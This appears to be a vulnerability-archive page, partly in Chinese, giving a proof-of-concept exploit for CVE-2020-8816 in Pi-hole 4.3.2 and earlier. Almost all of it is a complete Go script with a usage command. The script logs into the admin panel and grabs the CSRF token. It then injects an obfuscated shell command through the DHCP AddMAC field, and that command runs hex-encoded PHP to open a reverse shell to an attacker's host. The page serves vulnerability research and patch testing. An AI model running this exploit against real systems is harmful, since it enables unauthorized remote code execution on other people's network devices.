 <languages />

影響版本
--------

Pi-hole \<= 4.3.2

POC
---

    go run CVE-2020-8816.go -host $LHOST -p $LPORT -pass admin -u http://target/admin/

    package main


    import (
       "flag"
       "log"
       "strings"
       "github.com/anaskhan96/soup"
       "encoding/hex"
       "github.com/levigross/grequests"
    )

    type Options struct {
       url, password, host, port string

    }


    var HOST string
    var URL string
    var PORT string
    var PASSWD string

    func generate_shell() string{
       payload := "php -r '$sock=fsockopen(\"HOST\", PORT);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
       payload = strings.Replace(payload, "HOST", HOST, 1)
       payload = strings.Replace(payload, "PORT", PORT, 1)
       return hex.EncodeToString([]byte(payload))
    }

    func extractFlags() *Options {
       urlPtr := flag.String("u", "http://10.0.0.1/admin/", "Set the Url of the admin panel")
       passPtr := flag.String("pass", "admin", "Admin Password")
       hostPtr := flag.String("host", "10.0.0.1", "Set the host for the reverse shell")
       portPtr := flag.String("p", "1337", "Set Port for the reverse shell")
       flag.Parse()

       return &Options{*urlPtr, *passPtr, *hostPtr,*portPtr}
    }

    func doLogin(ses *grequests.Session) *grequests.Session{
       log.Println("Logging In...")
       resp, err := ses.Post(URL+"index.php",&grequests.RequestOptions{Data: map[string]string{"pw": PASSWD}})
       if err != nil {
           log.Fatal("Error logging-in: ", err)
       }

       if resp.Ok != true {
           log.Println("Request for log-in did not return OK")
       }
       log.Println("Logged In!")
       return ses
    }

    func getToken(ses *grequests.Session) string{
       resp, err:= ses.Get(URL+"index.php",nil)
           if err != nil {
           log.Fatal("Error getting token: ", err)
       }

       if resp.Ok != true {
           log.Println("Request for getting token did not return OK")
       }
       html := soup.HTMLParse(resp.String())
       token := html.Find("div","id","token").Text()
       return token
    }

    func Exploit(ses *grequests.Session, token string, payload string) {
       full_payload := "aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS'EXEC(HEX2BIN(\"" + payload + "\"));'&&"
       resp,err := ses.Post(URL + "settings.php", &grequests.RequestOptions{Data: map[string]string{
           "AddMAC":full_payload,
           "field":"DHCP",
           "AddIP":"10.10.10.10",
           "AddHostname":"10.10.10.10",
           "addstatic":"",
           "token":token}})
               if err != nil {
           log.Fatal("Error sending payload: ", err)
       }

       if resp.Ok != true {
           log.Println("Request for sending payload did not return OK")
       }
    }


    func main(){
       options := extractFlags()
       HOST = options.host
       URL = options.url
       PORT = options.port
       PASSWD = options.password
       session := grequests.NewSession(nil)
       doLogin(session)
       log.Println("Getting Token...")
       token := getToken(session)
       log.Println("Token:",token)
       log.Println("Generating payload...")
       payload := generate_shell()
       log.Println("Payload generated:",payload)
       log.Println("Sending exploit...")
       Exploit(session, token, payload)
       log.Println("Exploit executed, check your session")
    }